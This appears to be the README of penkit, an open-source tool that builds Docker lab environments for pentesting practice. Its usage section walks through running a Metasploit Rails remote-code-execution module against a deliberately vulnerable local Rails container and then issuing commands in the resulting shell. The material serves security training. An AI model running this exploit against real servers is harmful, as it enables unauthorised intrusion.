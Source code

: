 # penkit

Penkit is a software suite designed to hone your pentesting skills. Using the power and flexibility of docker, we are able to build controlled, isolated environments for reproducing virtually any software vulnerability out there. Penkit has two major components: our strictly maintained image catalog and our full featured CLI application.

## Getting started

Penkit has only a couple of requirements and three different install options.

### Prerequisites

- Linux or OSX (x86-64)
- Docker 1.13+
- Ruby and rubygems (optional)

### Installation

#### Option 1: Ruby gem

You can install the penkit gem directly from [rubygems.org](https://rubygems.org/gems/penkit):

```
$ gem install penkit
$ penkit help
```

#### Option 2: Docker image

If you don't have ruby, then you can use the penkit Docker image:

```bash
$ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock penkit/cli help
```

#### Option 3: Bash wrapper

If docker commands are a hassle to you, just download our bash wrapper:

```bash
$ wget -O /usr/local/bin/penkit https://gitlab.com/penkit/penkit/raw/master/scripts/penkit
$ chmod +x penkit
$ penkit  help
```

### Usage

Take penkit for a spin with this quick rails exploit:

#### 1. Start a vulnerable rails container
```bash
$ penkit start rails:3.2.9
```

#### 2. Run exploit against the container using metasploit
```bash
$ penkit metasploit -x " \
  use exploit/multi/http/rails_xml_yaml_code_exec; \
  set RHOST rails; \
  set RPORT 8080; \
  run"
```

#### 3. Run shell commands on the compromised rails container
```bash
whoami
pwd
ls
```

#### 4. Stop the remote shell and metasploit
```bash
^ctrl-C
exit
```

#### 5. Clean up our penkit containers
```bash
$ penkit rm
```

#### 6. Learn more with integrated help
```bash
$ penkit help
```

## Contributing

Penkit is open-source, and we welcome contributions!

- [Open an issue](https://gitlab.com/penkit/penkit/issues)
- [Create a fork](https://gitlab.com/penkit/penkit/forks/new)

### Development

Local development requires ruby and bundler:

```bash
$ git clone git@gitlab.com:your_user/penkit penkit
$ cd penkit
$ bundle install
$ bundle exec penkit help
```

### Testing

Most of the tests for the Penkit CLI are ran through rspec:

```bash
$ bundle exec rspec
```

## License

Penkit is released under the [MIT License](LICENSE).
